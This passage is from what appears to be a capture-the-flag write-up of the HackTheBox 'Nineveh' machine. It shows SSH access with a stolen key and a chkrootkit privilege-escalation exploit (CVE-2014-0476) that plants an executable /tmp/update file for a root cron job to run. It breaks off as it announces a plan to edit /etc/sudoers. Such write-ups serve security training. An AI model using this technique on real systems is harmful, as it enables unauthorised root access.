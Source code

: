 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2012:06:17.png)

Okay, now the ssh port is opened

Now we ssh with the key

```sh
ssh -i /tmp/nineveh.priv amrois@nineveh.htb
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2012:08:02.png)

# amrois -> root

Let's become root now

We run [linpeas](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0) and found the `chkrootkit` running in this server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:01:57.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:02:29.png)

[Chrootkit](http://www.chkrootkit.org/) is a tool which looks for rootkit on the server.

We search for some exploits for this binary and found on exploitdb

We found [this](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/) to explain what we'll do here now.

1. First step to exploit this vulnerability, we need to create a file named 'update' in /tmp directory, with a bash command, and, make the file executable

```sh
echo 'mkdir /tmp/0x4rt3mis' > /tmp/update
chmod 777 /tmp/update
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:25:30.png)

2. Now execute the chkrootkit command using root. In this particular case, I found a cron job running it as root, I had to wait for it to execute automatically, after a while I found the new directory named '0x4rt3mis', the owner is root

```sh
ls -l /tmp
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:25:48.png)

Wait for the cron...

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:27:07.png)

3. Knowing the previous command executed, we can modify files, we can add privileges to our current user www-data by modifying /etc/sudoers
